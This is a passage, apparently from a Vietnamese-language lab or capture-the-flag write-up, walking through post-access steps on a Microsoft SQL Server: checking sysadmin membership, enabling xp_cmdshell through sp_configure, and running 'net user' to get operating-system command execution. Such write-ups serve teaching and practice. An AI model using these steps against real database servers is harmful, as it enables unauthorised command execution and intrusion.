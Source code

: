 Sau đây là hai bài viết tuyệt vời có thể hướng dẫn tiếp tục hành trình khám phá MSSQL Server:
https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

Bước đầu tiên cần kiểm tra vai trò trong máy chủ. Sử dụng lệnh được tìm thấy trong bảng hướng dẫn ở trên:

```
SELECT is_srvrolemember('sysadmin');
```

![alt text](image-8.png)

Đầu ra là `1`, có nghĩa là `True`.

Trong các hướng dẫn trước, tìm thấy cách thiết lập thực thi lệnh thông qua `xp_cmdshell`:

```
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005, trước tiên có thể cần kích hoạt lại xp_cmdshell vì nó bị tắt theo mặc định:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```

Trước tiên, nên kiểm tra xem `xp_cmdshell` đã được kích hoạt hay chưa bằng cách đưa ra lệnh đầu tiên:

```
SQL> EXEC xp_cmdshell 'net user';
```

![alt text](image-9.png)
